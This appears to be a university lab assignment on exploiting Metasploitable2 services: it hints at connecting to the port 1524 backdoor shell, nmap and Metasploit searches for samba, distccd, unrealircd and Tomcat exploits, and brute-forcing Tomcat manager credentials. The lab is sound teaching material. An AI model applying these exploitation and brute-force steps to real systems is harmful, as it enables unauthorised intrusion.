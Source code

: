 And of course, you can always google version names along with the term "exploit" to see what comes up.
          

Now, exploit three additional services.
          
### Exploit <span class='label label-info'>the following additional service</span>

* 1524 \| bindshell
    * this is a backdoor shell set up on Metasploitable2, just waiting for a connection…
    * easy way, skip Metasploit and use `netcat` (`nc`)
        * Read basic docs flex your self-learning muscle!
    * Metasploit way:
        * use exploit/multi/handler
        * set payload generic/shell_bind_tcp
        * set lport 1524
        * set rhost 192.168.55.102

### Exploit <span class='label label-info'>two more additional services</span> from the following list

* 139, 445 \| samba
    * `search samba` returns a lot of results! Let's narrow down
    * to get the samba version: `nmap --script smb-os-discovery 192.168.55.102`
    * now, msf > `search name:samba <version number you got from previous step>`
* 1099 \| RMIRegistry
    * set srvhost to kali host ip on infosec-net
* 3632 \| distccd
* 6667 \| unrealircd
    * to get the precise version number, connect to the IRC server running on metasploitable2.
        * `apt install hexchat`
        *  run `hexchat`
        * Networks > Add > (name it whatever) > Edit > replace `newserver/6667` with `192.168.55.102/6667`
        * connect
        * precise version number will be reported by the server in the chat window
        * search msf db for an exploit for the server name/version
* 8180 \| tomcat
    * tomcat is running on port 8180
    * view by browsing to 192.168.55.102:8180
    * need manager creds 192.168.55.102:8180/manager/html 
    * bruteforce tomcat manager username:password with auxiliary/scanner/http/tomcat_mgr_login
    * once you have the tomcat mgr username:password, exploit (search type:exploit name:tomcat)
    * set httpusername and httppassword
    * don't forget to set port
    
    
## Part 2 Deliverable

For <span class='label label-success'>each of the three additional exploits</span>, take <span class='label label-info'>one</span> screenshot showing:

* running the exploit and obtaining a shell, 
* interacting with that shell (if not done automatically),
* if dropped into a meterpreter session, dropping into a basic shell via the meterpreter `shell` command
* running the `date` command (don't worry about the date being a few days off due to metasploitable2 lagging)
* running `echo <your first and last name>` command.
